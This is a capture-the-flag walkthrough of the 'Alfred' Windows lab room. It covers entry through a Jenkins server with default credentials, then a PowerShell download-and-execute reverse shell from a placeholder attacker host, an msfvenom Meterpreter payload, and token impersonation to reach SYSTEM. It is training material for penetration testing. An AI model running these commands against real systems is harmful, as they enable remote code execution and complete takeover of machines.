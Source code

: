 ```yaml
---
title: "Alfred"
tags:
  - Easy
  - Windows
  - nmap
  - Jenkins
  - powershell
  - msfvenom
  - meterpreter
  - Token Impersonation
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--|:------------: |--|
|   Easy     |  | 10.10.113.167 |  |

---

Let's start off with a basic `nmap` scan on the target machine. The room states that the machine does not respond to ping (ICMP). Hence, we have to specify the `-Pn` tag in our nmap command. This will disable host discovery, basically skipping the process of pinging the target machine to see if it is alive.

```
sudo nmap -sC -sV -Pn -vv 10.10.113.167
```

![screenshot1](../assets/images/alfred/screenshot1.png)

From the results, we can see that there are 3 ports currently open: **80 (HTTP)**, **3389** and **8080 (HTTP)**

Let's first visit the web server on port 80. Navigating to the address, we are brought to the following page:

![screenshot2](../assets/images/alfred/screenshot2.png)

After looking through the website and running a `gobuster` directory scan, I was unable to find anything of interest. 

Let's move on to the web server on port 8080:

![screenshot3](../assets/images/alfred/screenshot3.png)

Nice! We found a login page to a Jenkins server. 

---

*Jenkins is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery (from Wikipedia).*

---

Let's try using a common default username and password to log in:

> admin : admin

![screenshot4](../assets/images/alfred/screenshot4.png)

Luckily for us, those credentials actually worked! We're now logged into the Jenkins dashboard.

The room then asks us to find a feature of the Jenkins tool that allows us to execute commands on the underlying system. After digging around, I managed to find a configuration page which allows us to input commands that will be executed server-side. To access this page, we click on the current project named 'project', then 'Configure' on the left-hand side, then move down to the 'Build' section:

![screenshot5](../assets/images/alfred/screenshot5.png)

In this field, we are able to input shell commands which will be executed once the project is built. Let's test this out so that we can  better understand how it works. We'll leave the command to be `whoami`.

![screenshot6](../assets/images/alfred/screenshot6.png)

Now, we simply click on 'Build Now' on the project page, then click on the corresponding build in the 'Build History' section, then click on 'Console Output' to see the results of our command:

![screenshot7](../assets/images/alfred/screenshot7.png)

We can see from the console output that our `whoami` was successfully run! This proves that we can run arbitrary commands on the server. 

Thus, let's use this to upload a reverse shell script that will grant us initial access into our target machine. Since this is a Windows machine, we'll use a Powershell [reverse shell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) that is part of the [Nishang framework](https://github.com/samratashok/nishang).

After downloading the reverse shell script onto our local machine, we then run a Python HTTP server so that we can transfer the script to our target.

Next, we input the following command into the 'Build' section of the project:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

The first part of this command will download the reverse shell script onto the target machine. It will then run the script using `Invoke-PowerShellTcp`.

![screenshot8](../assets/images/alfred/screenshot8.png)

Finally, we make sure to have a netcat listener up and ready to catch the connection.

With everything set up, let's go ahead and build the project!

![screenshot9](../assets/images/alfred/screenshot9.png)

And we're in!

![screenshot10](../assets/images/alfred/screenshot10.png)

**user.txt** is located in the desktop of the user bruce.

---

To make the privilege escalation process easier, let's switch to a Meterpreter shell using `metasploit`.

Firstly, we need to create a Windows-based reverse shell executable which can connect back to our Meterpreter listener. This can be done using `msfvenom`:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o shell.exe
```

![screenshot11](../assets/images/alfred/screenshot11.png)

With our payload created, we upload it onto the target machine using the same command as before:

``` 
powershell "(New-Object System.Net.WebClient).Downloadfile('http://ATTACKER_IP:8000/shell.exe','shell.exe')"
```

![screenshot12](../assets/images/alfred/screenshot12.png)

For good measure, I'll also add in a `dir` command to list out the contents of the server directory. This is to confirm that our payload has been successfully uploaded onto the target machine.

After building the project, we can see from the console output that our malicious payload (shell.exe) has been successfully uploaded on the target machine:

![screenshot13](../assets/images/alfred/screenshot13.png)

Now, we just have to execute it using:

```
.\shell.exe
```

![screenshot14](../assets/images/alfred/screenshot14.png)

Before building, we need to have the appropriate handler up and running in Metasploit. We will be using the /multi/handler module:

```
use /multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST x.x.x.x 
set LPORT 4444
run -j
```

With everything set up, let's build the project:

![screenshot15](../assets/images/alfred/screenshot15.png)

We have successfully spawned a Meterpreter shell!

---

Now that we have initial access via a meterpreter shell, we can use **token impersonation** to gain system access.

Let's first spawn a shell that we can use. This can be done using the `shell` command in meterpreter.

Next, we use the `whoami /priv` command to view all privileges on this account:

![screenshot16](../assets/images/alfred/screenshot16.png)

As we can see, the **SeDebugPrivilege** and **SeImpersonatePrivilege** privileges have been enabled. We can exploit these privileges by using the `incognito` module in Metasploit. To load the module, we first exit out of the shell. Then we use the `load incognito` command: 

![screenshot17](../assets/images/alfred/screenshot17.png)

Loading this module gives us more commands that we can run in meterpreter:

![screenshot18](../assets/images/alfred/screenshot18.png)

We will be using the `list_tokens` command:

```
list_tokens -g
```

*(The -g tag lists tokens by unique groupname)*

![screenshot19](../assets/images/alfred/screenshot19.png)

From the results, we can see that the **BUILTIN\Administrators** delegation token is available. We can then use the `impersonate_token` command to use this token. This will then allow us to impersonate the root user (NT AUTHORTIY\SYSTEM):

```
impersonate_token "BUILTIN\Administrators"
```

![screenshot20](../assets/images/alfred/screenshot20.png)

With that, we have now impersonated the root user!

However, even though we are currently using a higher privileged token, we may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions: it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). 

Hence, we need to make sure that we migrate to a process with the correct 'NT AUTHORITY\SYSTEM' permissions. According to the room, the safest process to migrate to is the **services.exe** process. Let's migrate to that process now.

Before doing so, we need to find the PID of the process. We can use the `ps` command:

![screenshot21](../assets/images/alfred/screenshot21.png)

The PID of services.exe is **668**. 

Now let's migrate to the process:

```
migrate 668
```

![screenshot22](../assets/images/alfred/screenshot22.png)

After the migration is complete, we finally have the permissions of 'NT AUTHORITY\SYSTEM'. 

We now spawn a root shell using the `shell` command. We can then read the **root.txt** file located in C:\Windows\System32\config using the `TYPE` command:

![screenshot23](../assets/images/alfred/screenshot23.png)
